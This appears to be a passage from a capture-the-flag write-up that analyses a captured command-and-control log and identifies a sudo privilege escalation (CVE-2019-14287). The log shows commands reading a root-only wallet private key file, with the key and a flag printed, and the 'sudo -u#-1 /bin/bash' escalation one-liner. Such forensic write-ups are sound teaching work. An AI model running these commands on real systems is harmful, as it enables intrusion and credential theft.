drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profile
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:cat wall
heartbeat
cmd et-priv.txt
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profileLorem ipsum dolor sit amet, consectetur adipiscing elit. Praesent imperdiet pretium bibendum. Phasellus sit amet odio sit amet nunc facilisis dignissim. Proin vel auctor mauris. Duis id lorem sed orci imperdiet ultrices eu ac felis. Pellentesque ut leo vitae dui tincidunt dapibus in eget erat. Morbi eu ligula quis urna ullamcorper cursus sit amet at justo. Pellentesque vestibulum mattis lectus, non suscipit mi aliquam at. Nullam et dictum libero. Aliquam ultricies feugiat nunc, et pulvinar eros hendrerit eu. Aenean consectetur nulla a metus lacinia tempus. Nulla eu feugiat orci. In hac habitasse platea dictumst. Integer sit amet dolor nunc. Aliquam vehicula leo quis feugiat pulvinar. Etiam ac interdum felis. 
            Wallet private:  L5mj2Yt5rfYXprowC8pUBsyC9R1PgKKpfQSNqcBRZBiaXUg5bi5s
            flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin
            In posuere, nisl eu aliquet ultrices, urna elit aliquam mi, vel suscipit ante nibh eget nibh. Sed massa lorem, condimentum ut odio at, rutrum iaculis lectus. Aenean libero arcu, pretium dapibus nunc auctor, lacinia gravida lorem. Duis vitae vulputate ligula. Quisque tincidunt risus nec luctus ornare. Curabitur sed sagittis odio. Vivamus a leo id diam bibendum gravida. Integer efficitur ultrices odio. Aliquam egestas, nisl et mollis lobortis, augue leo consectetur enim, quis dictum justo sapien et justo.
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd QUIT
```


Amongst this output, the section that caught my eye was:


```
cmd SHELL:id -un
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroot
```


Since this line shows the user is now root, we can assume that whatever happened before it was probably the privilege escalation we're looking for-- looking upwards in the output, we see the following:


```
cmd SHELL:sudo -u#
heartbeat
cmd -1 /bin/bash
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OK
```


This, combined with the output showing the sudo version is enough to search for sudo exploits that might match-- a quick google search for "sudo -u#-1" pulls up immediate hits for CVE-2019-14287, which was a sudo privilege escalation vulnerability. I then spent far longer than I should have attempting to submit the result of
`echo 'CVE-2019-14287' | md5sum`

Astute observers may notice the lack of a `-n` parameter to echo; this means that I was outputting a trailing newline into md5sum, resulting in an incorrect hash. Fortunately, an observant teammate noticed my error and got the points.  

